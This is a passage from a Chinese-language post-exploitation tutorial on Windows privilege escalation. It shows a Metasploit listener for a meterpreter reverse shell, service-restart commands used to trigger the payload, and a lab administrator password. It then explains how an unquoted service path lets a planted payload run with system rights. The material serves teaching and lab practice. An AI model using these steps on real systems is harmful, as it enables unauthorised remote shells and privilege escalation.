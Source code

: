 ![image-20241010094619241](https://image.201068.xyz/assets/38.后渗透/image-20241010094619241.png)

##### msf监听

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
run
```

![image-20241010101615808](https://image.201068.xyz/assets/38.后渗透/image-20241010101615808.png)

##### 重启服务

```python
sc stop phpstudysrv
sc start phpstudysrv
```

![image-20241010102228270](https://image.201068.xyz/assets/38.后渗透/image-20241010102228270.png)

> 权限不足，需要高权限的用户触发 
>
> administrator / Qwe.123

![image-20241010101910392](https://image.201068.xyz/assets/38.后渗透/image-20241010101910392.png)

![image-20241010102034168](https://image.201068.xyz/assets/38.后渗透/image-20241010102034168.png)

![image-20241010101941429](https://image.201068.xyz/assets/38.后渗透/image-20241010101941429.png)

### 5.3.未引用的服务路径

末引用的服务路径 （`Unquoted Service Path`）漏洞曾被称为**可信任的服务路径**（Trusted Service Path），利用了 Windows 文件路径解析的特性。

当服务启动时所执行文件的路径中**包含空格且未包含在引号中时**，就会导致该漏洞。

如果完整路径中包含空格且未包含在引号中，那么对于该路径中的每个空格，Windows 会按照从左到右的顺序依次尝试寻找并执行与空格前的名字相匹配的程序。

例如.对于路径 `C:\Program Files\Sub Dir\Program Name.exe`，系统依次寻找并执行以下程序

```python
C:\Program.exe
C:\Program Files\Sub.exe
C:\Program Files\Sub Dir\Program.exe
C:\Program Files\Sub Dir\Program Name.exe
```

注意，当系统在**依次尝试服务路径中的空格**时，会**以当前服务所拥有的权限进行**。

因此，我们可以将一个经过特殊命名的攻击载荷上传到受影响的目录中，**当重启服务时，攻击载荷将随着服务的启动继承系统权限**。

但前提是**当前用户对受影响的目录具有写入权限**。
